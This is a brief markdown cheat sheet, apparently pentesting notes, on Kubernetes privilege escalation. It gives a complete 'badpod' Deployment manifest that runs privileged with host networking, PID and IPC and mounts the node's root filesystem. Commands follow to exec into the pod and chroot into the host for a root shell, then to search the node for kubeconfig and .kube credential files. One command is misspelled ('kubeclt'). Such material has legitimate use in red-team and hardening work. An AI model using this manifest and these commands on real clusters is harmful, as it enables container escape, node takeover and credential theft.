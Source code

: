 # Kubernetes 

## Privilege Escalation

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: badpod
  labels:
    app: badpod
    type: deployment
spec:
  replicas: 2
  selector:
    matchLabels:
      app: badpod
      type: deployment
  template:
    metadata:
      labels:
        app: badpod
        type: deployment
    spec:
      hostNetwork: true
      hostPID: true
      hostIPC: true
      containers:
      - name: badpod
        image: ubuntu
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: noderoot
        command: [ "/bin/sh", "-c", "--" ]
        args: [ "while true; do sleep 30; done;" ]
      #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
      volumes:
      - name: noderoot
        hostPath:
          path: /

```

Deploy and get Shell
```
kubeclt apply -f badpod.yaml
kubectl exec -it badpod -- chroot /host bash
```

locate credentials
```
find / -name kubeconfig
find / -name .kube
grep -R "current-context" /home/
grep -R "current-context" /root/
```



### References:
https://github.com/BishopFox/badPods/tree/main/manifests/everything-allowed
https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/
